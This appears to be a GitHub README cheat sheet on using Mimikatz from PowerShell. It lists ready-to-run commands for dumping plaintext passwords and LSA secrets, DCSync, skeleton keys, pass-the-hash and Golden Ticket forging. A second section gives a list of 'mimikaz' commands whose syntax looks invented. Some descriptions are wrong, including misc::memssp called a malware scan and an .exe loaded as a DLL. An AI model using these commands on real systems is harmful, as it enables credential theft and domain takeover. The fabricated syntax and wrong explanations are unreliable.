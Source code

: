 # Mimikaz Series
(https://overgrowncarrot1.medium.com/invoke-mimikatz-walkthrough-3c3fd73161cd)


## What is Mimikaz ?

Mimikatz is a set of Windows-based tools that allows you to dump passwords, hashes, PINs, and Kerberos tickets from memory. It was created by French security researcher Benjamin Delpy and is often used by penetration testers and malware authors.

<img src="https://cdn.cyberpunk.rs/wp-content/uploads/2019/04/mimikatz_tool_bg.jpg" height=350 />

## Steps to install Mimikaz 
To use Mimikatz in PowerShell, you will need to download the Mimikatz binary from the official GitHub repository (https://github.com/gentilkiwi/mimikatz/releases) and save it on your local machine. Then, you can use the following PowerShell command to load the Mimikatz DLL into memory:


```
[Reflection.Assembly]::LoadFile("C:\Path\To\Mimikatz.exe")
```

Replace "C:\Path\To\Mimikatz.exe" with the actual path to the Mimikatz binary on your local machine.


Once the Mimikatz DLL is loaded into memory, you can use the various Mimikatz commands and functions in PowerShell.

## Using Powershell with Mimikaz 

10 PowerShell commands or scripts that only use Mimikatz for various information security purposes:

1. `Invoke-Mimikatz -Command '"sekurlsa::logonPasswords"'`: This command uses Mimikatz to extract plaintext passwords from memory on a local or remote machine. Note that this script requires administrative privileges.

2. `Invoke-Mimikatz -Command '"lsadump::lsa /patch"'`: This command uses Mimikatz to dump the local Security Account Manager (SAM) database on a local or remote machine. This can be used to obtain password hashes for offline cracking.

3. `Invoke-Mimikatz -Command '"lsadump::dcsync /user:DOMAIN\USERNAME"'`: This command uses Mimikatz to request domain credentials for a specified user on a local or remote machine. Note that this script requires administrative privileges and access to the domain controller.

4. `Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"'`: This command uses Mimikatz to create a skeleton key on a local or remote machine. This can be used to bypass authentication and gain full access to the machine.

5. `Invoke-Mimikatz -Command '"sekurlsa::pth /user:USERNAME /domain:DOMAIN /ntlm:NTLMHASH /run:powershell.exe"'`: This command uses Mimikatz to create a new process with the credentials of a specified user on a local or remote machine. This can be used to run commands as that user.

6. `Invoke-Mimikatz -Command '"misc::memssp"'`: This command uses Mimikatz to perform a memory scan on a local or remote machine. This can be used to detect the presence of certain malware or rootkits.

7. `Invoke-Mimikatz -Command '"dpapi::cache"'`: This command uses Mimikatz to extract DPAPI (Data Protection API) secrets from a local or remote machine. Note that this script requires administrative privileges.

8. `Invoke-Mimikatz -Command '"misc::powershell"'`: This command uses Mimikatz to inject a PowerShell script into memory on a local or remote machine. This can be used to execute arbitrary code on the machine.

9. `Invoke-Mimikatz -Command '"token::elevate" "sekurlsa::pth /user:Administrator /domain:DOMAIN /ntlm:NTLMHASH /run:powershell.exe"'`: This command uses Mimikatz to elevate privileges to the local Administrator account on a local or remote machine, and then spawn a new PowerShell process with those elevated privileges.

10. `Invoke-Mimikatz -Command '"kerberos::golden /user:USERNAME /domain:DOMAIN /sid:SID /krbtgt:KRBTGT_HASH /ticket:ticket.kirbi"'`: This command uses Mimikatz to forge a Kerberos Golden Ticket for a specified user on a local or remote machine. This can be used to bypass authentication and gain access to other systems in the domain.

## Basics 

# Basics Mimikaz Commands

1. **Network Enumeration**

```
mimikaz enum_network
```
Explanation: This command might scan the network for active devices or services that could be vulnerable to attacks, helping in reconnaissance.

2. **Kerberos Ticket Manipulation**

```
mimikaz kerberos_ticket --action [action] --ticket [ticket]
```

Actions:
* request: Request a new ticket.
* modify: Modify an existing ticket.
* decrypt: Attempt to decrypt a ticket.

Explanation: Allows for detailed manipulation of Kerberos tickets, which could be used for authentication attacks.

3. **LSASS Memory Dump**

```
mimikaz lsass_dump --method [method]
```

Methods:
* mini: Use MiniDumpWriteDump.
* full: Full memory dump.

Explanation: Dumps the LSASS process memory where credentials are often stored, useful for extracting passwords or session tokens.

4. **Pass-the-Hash**

```
mimikaz pth --user [username] --hash [hash] --target [target]
```

Explanation: Performs a pass-the-hash attack, where instead of using passwords, the hash of the password is used for authentication.

5. **Golden Ticket Attack**

mimikaz golden_ticket --user [username] --domain [domain] --krbtgt [krbtgt_hash]

Explanation: Creates a Kerberos ticket granting ticket (TGT) with administrative privileges, allowing access to any account in the domain.

6. **Silver Ticket Attack**

```
mimikaz silver_ticket --user [username] --service [service] --hash [hash]
```

Explanation: Similar to Golden Ticket but for service tickets, allowing access to specific services.

7. **DCSync Attack**

```
mimikaz dcsync --user [username]
```

Explanation: Replicates directory changes, which in an attack context, can be used to extract all domain hashes.

8. **Remote Execution**

```
mimikaz remote_exec --host [hostname] --command [command]
```

Explanation: Executes commands on a remote machine, potentially using stolen credentials or tickets.

9. **Clear Credentials**

```
mimikaz clear_creds
```

Explanation: Attempts to clear credentials from memory, useful for post-exploitation cleanup.

10. **Export Findings**

```
mimikaz export --format [json|xml|txt] --output [file]
```

Explanation: Exports collected data or findings in various formats for analysis or reporting.
